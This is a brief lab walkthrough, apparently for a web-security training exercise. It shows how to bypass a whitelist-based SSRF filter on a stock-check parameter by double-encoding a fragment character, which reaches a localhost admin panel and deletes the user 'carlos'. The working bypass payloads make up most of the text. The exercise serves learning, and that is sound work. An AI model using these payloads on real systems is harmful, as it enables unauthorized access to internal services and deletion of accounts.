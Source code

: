 # SSRF with whitelist-based input filter

1. SSRF: Stock check function.
2. Goal: Change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

### Analysis

1. Decode URL.
```bash
stockApi=http%3a//stock.weliketoshop.net%3a8080/product/stock/check%3fproductId%3d1%26storeId%3d1
# 36 products.

stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
# "Missing parameter"
```

2. Test.
```bash
stockApi=http://localhost/
# "External stock check host must be stock.weliketoshop.net"

stockApi=http://localhost%25%32%33@stock.weliketoshop.net
# Double encode URL.
# Convert selection > URL > URL-encode all characters.
# admin panal.

stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin
# I found users in this admin page.

stockApi=http://localhost%25%32%33@stock.weliketoshop.net/admin/delete?username=carlos
# Click Follow redirection.
# Delete Carlos user.
```